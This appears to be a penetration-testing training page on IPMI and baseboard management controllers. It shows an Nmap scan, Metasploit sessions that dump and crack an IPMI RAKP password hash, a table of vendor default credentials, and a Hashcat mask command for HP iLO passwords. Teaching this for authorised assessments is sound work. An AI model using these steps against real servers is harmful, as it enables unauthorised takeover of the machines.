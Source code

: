 # IPMI

---

[Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. It acts as an autonomous subsystem and works independently of the host's BIOS, CPU, firmware, and underlying operating system. IPMI provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state. It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell. IPMI can also be used for remote upgrades to systems without requiring physical access to the target host. IPMI is typically used in three ways:

- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure

When not being used for these tasks, IPMI can monitor a range of different things such as system temperature, voltage, fan status, and power supplies. It can also be used for querying inventory information, reviewing hardware logs, and alerting using SNMP. The host system can be powered off, but the IPMI module requires a power source and a LAN connection to work correctly.

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band. To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

---

## Footprinting the Service

IPMI communicates over port 623 UDP. Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs). BMCs are typically implemented as embedded ARM systems running Linux, and connected directly to the host's motherboard. BMCs are built into many motherboards but can also be added to a system as a PCI card. Most servers either come with a BMC or support adding a BMC. The most common BMCs we often see during internal penetration tests are HP iLO, Dell DRAC, and Supermicro IPMI. If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. Gaining access to a BMC is nearly equivalent to physical access to a system. Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol. Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

#### Nmap

```shell-session
[!bash!]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Here, we can see that the IPMI protocol is indeed listening on port 623, and Nmap has fingerprinted version 2.0 of the protocol. We can also use the Metasploit scanner module [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/).

#### Metasploit Version Scan

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

During internal penetration tests, we often find BMCs where the administrators have not changed the default password. Some unique default passwords to keep in our cheatsheets include:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

It is also essential to try out known default passwords for ANY services that we discover, as these are often left unchanged and can lead to quick wins. When dealing with BMCs, these default passwords may gain us access to the web console or even command line access via SSH or Telnet.

---

## Dangerous Settings

If default credentials do not work to access a BMC, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using `Hashcat` mode `7300`. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

There is no direct "fix" to this issue because the flaw is a critical component of the IPMI specification. Clients can opt for very long, difficult to crack passwords or implement network segmentation rules to restrict the direct access to the BMCs. It is important to not overlook IPMI during internal penetration tests (we see it during most assessments) because not only can we often gain access to the BMC web console, which is a high-risk finding, but we have seen environments where a unique (but crackable) password is set that is later re-used across other systems. On one such penetration test, we obtained an IPMI hash, cracked it offline using Hashcat, and were able to SSH into many critical servers in the environment as the root user and gain access to web management consoles for various network monitoring tools.

To retrieve IPMI hashes, we can use the Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

#### Metasploit Dumping Hashes

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we can see that we have successfully obtained the password hash for the user `ADMIN`, and the tool was able to quickly crack it to reveal what appears to be a default password `ADMIN`. From here, we could attempt to log in to the BMC, or, if the password were something more unique, check for password re-use on other systems. IPMI is very common in network environments since sysadmins need to be able to access servers remotely in the event of an outage or perform certain maintenance tasks that they would traditionally have had to be physically in front of the server to complete. This ease of administration comes with the risk of exposing password hashes to anyone on the network and can lead to unauthorized access, system disruption, and even remote code execution. Checking for IPMI should be part of our internal penetration test playbook for any environment we find ourselves assessing.